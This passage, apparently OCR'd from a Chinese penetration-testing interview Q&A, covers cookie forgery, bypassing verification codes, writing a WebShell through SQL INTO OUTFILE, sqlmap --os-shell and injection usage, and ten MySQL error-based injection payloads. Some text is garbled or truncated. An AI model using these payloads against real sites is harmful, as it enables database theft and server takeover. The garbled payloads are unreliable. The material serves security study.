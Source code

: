 只要得到 Session 或 Cookie 即可伪造用户身份。验证码漏洞中存在

1）验证码允许暴力破解

2）验证码可以通过 Javascript 或者改包的方法来进行绕过

### 37、圈出下面会话中可能存在问题的项，并标注可能会存在的问题？

```
get /ecskins/demo.jsp?uid=2016031900&keyword=”hello world”
HTTP/1.1Host:***.com:82User-Agent:Mozilla/
5.0 Firefox/40Accept:text/css,/;q=0.1
Accept-Language:zh-CN;zh;q=0.8;en-US;q=0.5,en;q=0.3
Referer:http://*******.com/eciop/orderForCC/
cgtListForCC.htm?zone=11370601&v=145902
Cookie:myguid1234567890=1349db5fe50c372c3d995709f54c273d;
uniqueserid=session_OGRMIFIYJHAH5_HZRQOZAMHJ;
st_uid=N90PLYHLZGJXI-NX01VPUF46W;
status=True
Connection:keep-alive
```

有写入权限的，构造联合查询语句使用using INTO OUTFILE，可以将查询的输出重定向到系统的文件中，这样去写入 WebShell 使用 sqlmap –os-shell 原理和上面一种相同，来直接获得一个 Shell，这样效率更高 通过构造联合查询语句得到网站管理员的账户和密码，然后扫后台登录后台，再在后台通过改包上传等方法上传 Shell

### 38、给你一个网站你是如何来渗透测试的?在获取书面授权的前提下。

### 39、sqlmap，怎么对一个注入点注入？

1）如果是get型号，直接，sqlmap -u "诸如点网址".
2) 如果是post型诸如点，可以sqlmap -u "注入点网址” --data="post的参数"
3）如果是cookie，X-Forwarded-For等，可以访问的时候，用burpsuite抓包，注入处用号替换，放到文件里，然后sqlmap -r "文件地址"

### 40、nmap，扫描的几种方式

### 41、sql注入的几种类型？

1）报错注入
2）bool型注入
3）延时注入
4）宽字节注入

### 42、报错注入的函数有哪些？10个

```
1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】
2）通过floor报错 向下取整
3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)
4）.geometrycollection()select from test where id=1 and geometrycollection((select from(selectfrom(select user())a)b));
5）.multipoint()select from test where id=1 and multipoint((select from(select from(select user())a)b));
6）.polygon()select from test where id=1 and polygon((select from(select from(select user())a)b));
7）.multipolygon()select from test where id=1 and multipolygon((select from(select from(select user())a)b));
8）.linestring()select from test where id=1 and linestring((select from(select from(select user())a)b));
9）.multilinestring()select from test where id=1 and multilinestring((select from(select from(select user())a)b));
10）.exp()select from test where id=1 and exp(~(select * from
```
